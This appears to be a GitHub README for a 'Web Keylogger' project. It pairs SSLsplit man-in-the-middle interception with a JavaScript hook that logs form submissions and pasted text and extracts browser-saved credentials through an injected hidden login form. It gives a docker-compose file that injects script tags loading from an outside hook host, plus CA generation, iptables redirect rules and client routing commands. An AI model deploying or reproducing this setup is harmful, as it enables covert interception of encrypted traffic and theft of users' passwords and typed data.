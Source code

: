 # Web Keylogger
Injection of hidden form and extraction of user's credentials if stored in the browser.

## SSLSplit
[SSLsplit][1] is a tool for man-in-the-middle attacks against SSL/TLS encrypted
network connections.

![Schema](docs/sslSplit.svg)

## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage,
  * extracts user's credential by fakeing login form --- if credentials are stored for the domain, browser (Chrome, Firefox) injects them into hidden form

## docker-compose.yml

```
version: '3.5'

services: 
  sslsplit:
    image: nesatfit/sslsplit:latest
    build:
      dockerfile: ./docker/sslsplit/Dockerfile
      context: ./sslsplit
    container_name: keylogger_sslsplit
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    command:
      -k key/ca.key  
      -c key/ca.crt 
      -D 
      -K key/ca.key
      -P
      -l log/connections.log 
      -S log 
      -H "<script src='http://$HOOK_HOST:$HOOK_PORT_HTTP/hook' type='text/javascript'></script>" 
      -H "<script src='https://$HOOK_HOST:$HOOK_PORT_HTTPS/hook' type='text/javascript'></script>" 
      https 0.0.0.0 8443 
      http 0.0.0.0 8080
    network_mode: "host"
    volumes:
      - ./data:/data
    working_dir: /data
    restart: unless-stopped

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS 
    ports:
      - 8081:80
      - 8445:443  
      - 7000:7000
    restart: unless-stopped

  mongo:
    container_name: keylogger_mongo 
    image: mongo
    restart: unless-stopped
```

## Server Setup

```bash
$ mkdir -p data/{key,log}
$ vim docker-compose.yml # modify env variables to reflect your environment
$ openssl req -x509 -newkey rsa:2048 -nodes -keyout data/key/ca.key -out data/key/ca.crt -days 3650 -subj '/CN=EasyPi'
$ docker-compose up -d
```

```bash
# setup
sysctl -w net.ipv4.ip_forward=1
iptables -P FORWARD ACCEPT
iptables -t nat -N SSLSPLIT
iptables -t nat -A SSLSPLIT -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A SSLSPLIT -p tcp --dport 443 -j REDIRECT --to-ports 8443

# enable
iptables -t nat -A PREROUTING -j SSLSPLIT

# disable
iptables -t nat -D PREROUTING -j SSLSPLIT
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

curl -k https://www.messenger.com
```

> ProTip: No warning dialog after importing `ca.crt` into system/browser.

## Demonstration
- https://www.youtube.com/watch?v=kO2t3eZgG-8

## Read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>

[1]: <http://www.roe.ch/SSLsplit>

